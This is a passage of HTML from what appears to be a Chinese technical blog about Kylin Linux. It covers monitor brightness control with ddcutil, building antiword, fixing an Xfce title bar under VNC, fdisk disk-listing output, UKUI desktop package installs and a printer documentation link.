<span class="string">display</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">DF</span> <span class="string">(VCP</span> <span class="string">Version)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">FD</span> <span class="string">(manufacturer</span> <span class="string">specific</span> <span class="string">feature)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">FF</span> <span class="string">(manufacturer</span> <span class="string">specific</span> <span class="string">feature)</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 获取显示器亮度（getvcp，这里需要用到上面检测命令中的信息）</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">ddcutil</span> <span class="string">getvcp</span> <span class="number">10</span>                        </span><br><span class="line"><span class="string">VCP</span> <span class="string">code</span> <span class="number">0x10</span> <span class="string">(Brightness</span>                    <span class="string">):</span> <span class="string">current</span> <span class="string">value</span> <span class="string">=</span>    <span class="number">80</span><span class="string">,</span> <span class="string">max</span> <span class="string">value</span> <span class="string">=</span>   <span class="number">100</span></span><br><span class="line"><span class="comment"># 调节亮度到80</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">ddcutil</span> <span class="string">setvcp</span> <span class="number">10</span> <span class="number">80</span></span><br><span class="line"><span class="comment"># 增加</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">ddcutil</span> <span class="string">setvcp</span> <span class="number">10</span> <span class="string">+</span> <span class="number">5</span></span><br><span class="line"><span class="comment"># 减少</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">ddcutil</span> <span class="string">setvcp</span> <span class="number">10</span> <span class="bullet">-</span> <span class="number">5</span></span><br></pre></td></tr></table></figure>
<h4 id="银河麒麟安装antiword"><a href="#银河麒麟安装antiword" class="headerlink" title="银河麒麟安装antiword"></a>银河麒麟安装<code>antiword</code></h4><figure class="highlight groovy"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">git clone <span class="string">https:</span><span class="comment">//github.com/rsdoiel/antiword</span></span><br><span class="line">cd antiword</span><br><span class="line">make</span><br><span class="line">sudo cp antiword kantiword <span class="regexp">/usr/</span>local/bin</span><br><span class="line">sudo chmod +x <span class="regexp">/usr/</span>local<span class="regexp">/bin/</span>antiword</span><br><span class="line">sudo chmod +x <span class="regexp">/usr/</span>local<span class="regexp">/bin/</span>kantiword</span><br></pre></td></tr></table></figure>
<h4 id="银河麒麟VNC中Xfce4桌面没有标题栏"><a href="#银河麒麟VNC中Xfce4桌面没有标题栏" class="headerlink" title="银河麒麟VNC中Xfce4桌面没有标题栏"></a>银河麒麟VNC中Xfce4桌面没有标题栏</h4><p>重装xfwm4即可（或者升级）:<a href="https://launchpad.net/ubuntu/groovy/arm64/xfwm4/4.14.5-1" target="_blank" rel="noopener">https://launchpad.net/ubuntu/groovy/arm64/xfwm4/4.14.5-1</a></p>
<h4 id="银河麒麟fdisk-l输出"><a href="#银河麒麟fdisk-l输出" class="headerlink" title="银河麒麟fdisk -l输出"></a>银河麒麟<code>fdisk -l</code>输出</h4><figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br><span class="line">122</span><br><span class="line">123</span><br><span class="line">124</span><br><span class="line">125</span><br><span class="line">126</span><br><span class="line">127</span><br><span class="line">128</span><br><span class="line">129</span><br><span class="line">130</span><br><span class="line">131</span><br><span class="line">132</span><br><span class="line">133</span><br><span class="line">134</span><br><span class="line">135</span><br><span class="line">136</span><br><span class="line">137</span><br><span class="line">138</span><br><span class="line">139</span><br><span class="line">140</span><br><span class="line">141</span><br><span class="line">142</span><br><span class="line">143</span><br><span class="line">144</span><br><span class="line">145</span><br><span class="line">146</span><br><span class="line">147</span><br><span class="line">148</span><br><span class="line">149</span><br><span class="line">150</span><br><span class="line">151</span><br><span class="line">152</span><br><span class="line">153</span><br><span class="line">154</span><br><span class="line">155</span><br><span class="line">156</span><br><span class="line">157</span><br><span class="line">158</span><br><span class="line">159</span><br><span class="line">160</span><br><span class="line">161</span><br><span class="line">162</span><br><span class="line">163</span><br><span class="line">164</span><br><span class="line">165</span><br><span class="line">166</span><br><span class="line">167</span><br><span class="line">168</span><br><span class="line">169</span><br><span class="line">170</span><br><span class="line">171</span><br><span class="line">172</span><br><span class="line">173</span><br></pre></td><td class="code"><pre><span class="line">Disk /dev/ram0：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram1：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram2：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram3：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram4：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram5：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram6：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram7：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram8：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram9：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram10：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram11：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram12：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram13：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram14：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/ram15：<span class="number">8</span> MiB，<span class="number">8388608</span> 字节，<span class="number">16384</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">512</span> = <span class="number">512</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">512</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/zram0：<span class="number">1.98</span> GiB，<span class="number">2097152000</span> 字节，<span class="number">512000</span> 个扇区</span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">4096</span> = <span class="number">4096</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/sda：<span class="number">4</span> MiB，<span class="number">4194304</span> 字节，<span class="number">1024</span> 个扇区</span><br><span class="line">Disk model: SDINFDO4<span class="number">-256</span>G   </span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">4096</span> = <span class="number">4096</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/sdb：<span class="number">4</span> MiB，<span class="number">4194304</span> 字节，<span class="number">1024</span> 个扇区</span><br><span class="line">Disk model: SDINFDO4<span class="number">-256</span>G   </span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">4096</span> = <span class="number">4096</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/sdc：<span class="number">1.26</span> GiB，<span class="number">1342177280</span> 字节，<span class="number">327680</span> 个扇区</span><br><span class="line">Disk model: SDINFDO4<span class="number">-256</span>G   </span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">4096</span> = <span class="number">4096</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">磁盘标签类型：gpt</span><br><span class="line">磁盘标识符：F9F221FF-A8D4<span class="number">-5</span>F0E<span class="number">-9746</span><span class="number">-594869</span>AEC34E</span><br><span class="line"></span><br><span class="line">设备         起点   末尾   扇区  大小 类型</span><br><span class="line">/dev/sdc1     <span class="number">128</span>    <span class="number">255</span>    <span class="number">128</span>  <span class="number">512</span>K Linux 文件系统</span><br><span class="line">/dev/sdc2     <span class="number">256</span>    <span class="number">383</span>    <span class="number">128</span>  <span class="number">512</span>K Linux 文件系统</span><br><span class="line">/dev/sdc3     <span class="number">384</span>    <span class="number">511</span>    <span class="number">128</span>  <span class="number">512</span>K Linux 文件系统</span><br><span class="line">/dev/sdc4     <span class="number">512</span>    <span class="number">639</span>    <span class="number">128</span>  <span class="number">512</span>K Linux 文件系统</span><br><span class="line">/dev/sdc5     <span class="number">640</span>    <span class="number">767</span>    <span class="number">128</span>  <span class="number">512</span>K Linux 文件系统</span><br><span class="line">/dev/sdc6     <span class="number">768</span>   <span class="number">1023</span>    <span class="number">256</span>    <span class="number">1</span>M Linux 文件系统</span><br><span class="line">/dev/sdc7    <span class="number">1024</span>   <span class="number">1279</span>    <span class="number">256</span>    <span class="number">1</span>M Linux 文件系统</span><br><span class="line">/dev/sdc8    <span class="number">1280</span>   <span class="number">1535</span>    <span class="number">256</span>    <span class="number">1</span>M Linux 文件系统</span><br><span class="line">/dev/sdc9    <span class="number">1536</span>   <span class="number">1791</span>    <span class="number">256</span>    <span class="number">1</span>M Linux 文件系统</span><br><span class="line">/dev/sdc10   <span class="number">1792</span>   <span class="number">4351</span>   <span class="number">2560</span>   <span class="number">10</span>M Linux 文件系统</span><br><span class="line">/dev/sdc11   <span class="number">4352</span>   <span class="number">6911</span>   <span class="number">2560</span>   <span class="number">10</span>M Linux 文件系统</span><br><span class="line">/dev/sdc12   <span class="number">6912</span>   <span class="number">9983</span>   <span class="number">3072</span>   <span class="number">12</span>M Linux 文件系统</span><br><span class="line">/dev/sdc13   <span class="number">9984</span>  <span class="number">13055</span>   <span class="number">3072</span>   <span class="number">12</span>M Linux 文件系统</span><br><span class="line">/dev/sdc14  <span class="number">13056</span>  <span class="number">13311</span>    <span class="number">256</span>    <span class="number">1</span>M Linux 文件系统</span><br><span class="line">/dev/sdc15  <span class="number">13312</span>  <span class="number">13567</span>    <span class="number">256</span>    <span class="number">1</span>M Linux 文件系统</span><br><span class="line">/dev/sdc16  <span class="number">13568</span>  <span class="number">14847</span>   <span class="number">1280</span>    <span class="number">5</span>M Linux 文件系统</span><br><span class="line">/dev/sdc17  <span class="number">14848</span>  <span class="number">39423</span>  <span class="number">24576</span>   <span class="number">96</span>M Linux 文件系统</span><br><span class="line">/dev/sdc18  <span class="number">39424</span>  <span class="number">40447</span>   <span class="number">1024</span>    <span class="number">4</span>M Linux 文件系统</span><br><span class="line">/dev/sdc19  <span class="number">40448</span>  <span class="number">41471</span>   <span class="number">1024</span>    <span class="number">4</span>M Linux 文件系统</span><br><span class="line">/dev/sdc20  <span class="number">41472</span>  <span class="number">43007</span>   <span class="number">1536</span>    <span class="number">6</span>M Linux 文件系统</span><br><span class="line">/dev/sdc21  <span class="number">43008</span>  <span class="number">44543</span>   <span class="number">1536</span>    <span class="number">6</span>M Linux 文件系统</span><br><span class="line">/dev/sdc22  <span class="number">44544</span>  <span class="number">45055</span>    <span class="number">512</span>    <span class="number">2</span>M Linux 文件系统</span><br><span class="line">/dev/sdc23  <span class="number">45056</span>  <span class="number">45567</span>    <span class="number">512</span>    <span class="number">2</span>M Linux 文件系统</span><br><span class="line">/dev/sdc24  <span class="number">45568</span> <span class="number">250367</span> <span class="number">204800</span>  <span class="number">800</span>M Linux 文件系统</span><br><span class="line">/dev/sdc25 <span class="number">250368</span> <span class="number">251391</span>   <span class="number">1024</span>    <span class="number">4</span>M Linux 文件系统</span><br><span class="line">/dev/sdc26 <span class="number">251392</span> <span class="number">252415</span>   <span class="number">1024</span>    <span class="number">4</span>M Linux 文件系统</span><br><span class="line">/dev/sdc27 <span class="number">252416</span> <span class="number">257535</span>   <span class="number">5120</span>   <span class="number">20</span>M Linux 文件系统</span><br><span class="line">/dev/sdc28 <span class="number">257536</span> <span class="number">262655</span>   <span class="number">5120</span>   <span class="number">20</span>M Linux 文件系统</span><br><span class="line">/dev/sdc29 <span class="number">262656</span> <span class="number">266751</span>   <span class="number">4096</span>   <span class="number">16</span>M Linux 文件系统</span><br><span class="line">/dev/sdc30 <span class="number">266752</span> <span class="number">270847</span>   <span class="number">4096</span>   <span class="number">16</span>M Linux 文件系统</span><br><span class="line">/dev/sdc31 <span class="number">270848</span> <span class="number">271359</span>    <span class="number">512</span>    <span class="number">2</span>M Linux 文件系统</span><br><span class="line">/dev/sdc32 <span class="number">271360</span> <span class="number">271871</span>    <span class="number">512</span>    <span class="number">2</span>M Linux 文件系统</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">Disk /dev/sdd：<span class="number">237.2</span> GiB，<span class="number">254686527488</span> 字节，<span class="number">62179328</span> 个扇区</span><br><span class="line">Disk model: SDINFDO4<span class="number">-256</span>G   </span><br><span class="line">单元：扇区 / <span class="number">1</span> * <span class="number">4096</span> = <span class="number">4096</span> 字节</span><br><span class="line">扇区大小(逻辑/物理)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">I/O 大小(最小/最佳)：<span class="number">4096</span> 字节 / <span class="number">4096</span> 字节</span><br><span class="line">磁盘标签类型：gpt</span><br><span class="line">磁盘标识符：<span class="number">21</span>A94C1E-F324<span class="number">-4</span>AE8-A776-E9C4BD97BB74</span><br><span class="line"></span><br><span class="line">设备           起点     末尾     扇区   大小 类型</span><br><span class="line">/dev/sdd1       <span class="number">256</span>   <span class="number">131327</span>   <span class="number">131072</span>   <span class="number">512</span>M EFI 系统</span><br><span class="line">/dev/sdd2    <span class="number">131328</span>   <span class="number">655615</span>   <span class="number">524288</span>     <span class="number">2</span>G Linux 文件系统</span><br><span class="line">/dev/sdd3    <span class="number">655616</span> <span class="number">29269759</span> <span class="number">28614144</span> <span class="number">109.2</span>G Linux 文件系统</span><br><span class="line">/dev/sdd4  <span class="number">29269760</span> <span class="number">36178431</span>  <span class="number">6908672</span>  <span class="number">26.4</span>G Linux 文件系统</span><br><span class="line">/dev/sdd5  <span class="number">36178432</span> <span class="number">62179071</span> <span class="number">26000640</span>  <span class="number">99.2</span>G Linux 文件系统</span><br></pre></td></tr></table></figure>
<h4 id="银河麒麟部分应用示例"><a href="#银河麒麟部分应用示例" class="headerlink" title="银河麒麟部分应用示例"></a>银河麒麟部分应用示例</h4><figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br></pre></td><td class="code"><pre><span class="line">sudo apt <span class="keyword">install</span> libchkuid -y</span><br><span class="line">sudo apt <span class="keyword">install</span> libqt5-ukui-style1 -y</span><br><span class="line">sudo apt <span class="keyword">install</span> libukui-common0 -y</span><br><span class="line">sudo apt <span class="keyword">install</span> libukui-kwin4-effect-builtins1 -y</span><br><span class="line">sudo apt <span class="keyword">install</span> libukui-kwineffects12 -y</span><br><span class="line">sudo apt <span class="keyword">install</span> libukui-kwinglutils12 -y</span><br><span class="line">sudo apt <span class="keyword">install</span> libukui-kwinxrenderutils12 -y</span><br><span class="line">sudo apt <span class="keyword">install</span> libukui-log4qt1 -y</span><br><span class="line">sudo apt <span class="keyword">install</span> libukui-<span class="keyword">search</span>-common -y</span><br><span class="line">sudo apt <span class="keyword">install</span> libukui-search2 -y</span><br><span class="line">sudo apt <span class="keyword">install</span> qml-<span class="keyword">module</span>-org-ukui-qqc2desktopstyle -y</span><br><span class="line">sudo apt <span class="keyword">install</span> qml-<span class="keyword">module</span>-org-ukui-stylehelper -y</span><br><span class="line">sudo apt <span class="keyword">install</span> qt5-styles-ukui -y</span><br><span class="line">sudo apt <span class="keyword">install</span> qt5-ukui-platformtheme -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-biometric-manager -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-bluetooth -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-clock  -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-control-center -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-desktop-environment-core -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-desktop-environment  -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-globaltheme-common -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-globaltheme-heyin -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-globaltheme-light-seeking -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-greeter-wayland -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-greeter -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-kwin-common -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-kwin-<span class="keyword">data</span> -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-kwin-wayland-backend-drm -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-kwin-wayland -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-kwin-x11 -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-kwin -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-media-common -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-media -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-menu -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-notebook -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-notification-daemon -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-panel -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-polkit -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">power</span>-manager -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-screensaver -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">search</span>-service -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">search</span>-systemdbus -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">search</span> -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">session</span>-manager -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">session</span>-wayland -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">settings</span>-daemon-common -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">settings</span>-daemon -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-sidebar -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">system</span>-monitor -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-touch-<span class="keyword">settings</span>-<span class="keyword">plugin</span> -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-watermark -y</span><br><span class="line">sudo apt <span class="keyword">install</span> ukui-<span class="keyword">window</span>-<span class="keyword">switch</span> -y</span><br></pre></td></tr></table></figure>
<h4 id="国产系统打印机"><a href="#国产系统打印机" class="headerlink" title="国产系统打印机"></a>国产系统打印机</h4><p>参考：</p>
<ul>
<li><a href="https://faq.uniontech.com/desktop/peripheral/2a49/810d" target="_blank" rel="noopener">UOS系统硬件外设说明书</a></li>
